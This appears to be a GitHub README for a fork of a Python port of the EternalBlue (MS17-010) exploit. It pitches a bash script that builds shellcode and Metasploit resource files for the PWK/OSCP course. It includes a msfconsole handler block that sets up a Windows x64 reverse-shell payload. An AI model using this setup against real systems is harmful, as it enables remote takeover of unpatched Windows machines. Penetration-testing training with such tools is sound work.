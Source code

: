 # MS17-010

## Intro
This repository is forked from the fantastic work by [Worawit](https://github.com/worawit/MS17-010/) on the NSA's exploit leaked by the ShadowBrokers.

This is a python port of the exploit and has an excellent reliability for exploiting Windows OS that are vulnerable to [MS17-010/EternalBlue](http://www.wired.co.uk/article/what-is-eternal-blue-exploit-vulnerability-patch).
use the checker.py script to see if the target is unpatched/vulnerable.

Worawits script is great but its not so simple or quick to compile and has many moving parts to get up and running. 
It is necessary to work with raw Assembly language, shellcode for multiple architectures, msfconsole etc. 

What I have created a very handy bash script which will do all of the hard work for you and also gives instructions on how to exploit.

## Why create this ?
Because knowing how the exploit works is a lot more fun that firing up metasploit as well as that I created this out of necessity for the PWK course
and the OSCP certification. Those of you undertaking either will be well aware of the fact that Metasploit is extremely limited during exam time, so this 
exploit offers you a very fast reliable and allowed way to exploit any targets with port 445,139 open that are vulnerable.

My generation script will output 2 files that can be read into msfconsole by using the -r flag (msfconsole -r /root/EternalBlueX64.rc), so you dont have to keep typing out 
```
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set EXITFUNC thread
set ExitOnSession false
set LHOST 192.168.*.**
set LPORT 5555
exploit -j
```

fire up  the script and just follow the on screen instructions after the 7 step generation process.
